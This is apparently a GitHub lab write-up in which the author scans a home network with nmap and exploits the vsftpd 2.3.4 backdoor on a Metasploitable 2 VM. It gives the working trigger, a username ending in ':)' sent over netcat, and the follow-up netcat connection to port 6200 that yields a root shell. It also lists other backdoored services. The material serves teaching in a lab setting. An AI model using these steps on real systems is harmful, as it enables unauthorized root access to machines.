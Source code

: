 ## **Tools Used**

- **Nmap**: Network discovery and port scanning
- **Netcat**: Network utility for reading/writing network connections
- **vsFTPd 2.3.4 Exploit**: Backdoor vulnerability exploitation

Vulnerabilities Identified
vsFTPd 2.3.4 Backdoor: Critical vulnerability allowing root access

Multiple Exposed Services: Unnecessary services running

Outdated Software: Older versions with known vulnerabilities

Anonymous FTP Access: Unauthenticated file access


**Find and Scan the Target:**

**Step 1: To Findmy own IP Address**

1. I Start **Kali Linux.**
2. Open a terminal.
3. Type this command to find own IP and the network range:

                    ***ip a***

IP i found; 192.168.1.5

**Step 2: Discover the Metasploitable Machine**

Now, i scan the network to find the target. Use the network range found;

            nmap -sn 192.168.1.0/24
I see a list of IPs that responded. One is your Kali machine. The other is your **Metasploitable 2** machine, i also found 3 others.

   ***Kali IP: 192.168.1.5***

   ***Metasploitable2 IP: 192.168.1.4***

****Step 3: Scan the Target's Open Ports**
Now, i scan my target IP just found, the command i use;

              ***nmap -sV -A 192.168.1.4***

**Step 4: See the Web Service**

I Open the Firefox browser in Kali.

In the address bar, type: `http://`192.168.1.4

Website shown, Successfully scanned a network and accessed a service.

Found following open ports;

- **21/tcp - FTP:** `vsftpd 2.3.4` - This version is **exploitable**. It has a famous backdoor.
- **22/tcp - SSH:** `OpenSSH 4.7p1` - Old version, may have vulnerabilities.
- **23/tcp - Telnet:** Unencrypted remote login. You can try to log in.
- **80/tcp - HTTP:** A website (you already saw it).
- **445/tcp - Samba:** File sharing service. The scan says `message_signing: disabled (dangerous, but default)` - this is a huge finding.
- **1524/tcp - bindshell:** This is literally a backdoor left open. The name says it all.
- **2121/tcp - FTP:** Another FTP service (`ProFTPD 1.3.1`), also with known vulnerabilities.
- **3306/tcp - MySQL:** Database port. Default credentials might work.
- **5432/tcp - PostgreSQL:** Another database.
- **6667/tcp - IRC:** `UnrealIRCd` - This version has a famous backdoor.

**vsftpd 2.3.4 is famous backdoor which is exploitable.**

**Choose Attack:**

I choose **vsftpd 2.3.4** backdoor for exploitation in network reconnaissance.

In your Kali terminal, connect to the FTP port (21 port) with a specific command:

                             ***nc 192.168.1.4 21***  

Then I type this,  `user hello:)`

Type: `pass world`

**This triggers the backdoor.** Now, open a **NEW terminal** in my Kali.

In the new terminal, connect to the backdoor on port 6200 & used this command;

                                     ***nc 192.168.1.4 6200***

And i got a root shell (`root@metasploitable:`). C**ompromised the entire machine.** Type `whoami` to see.

then type; ***ls***

It shows all the folders inside compromised device.

Also i attched all the screenshot of real time lab.

Disclaimer
This documentation is for educational purposes only. The techniques demonstrated should only be used on systems you own or have explicit permission to test.
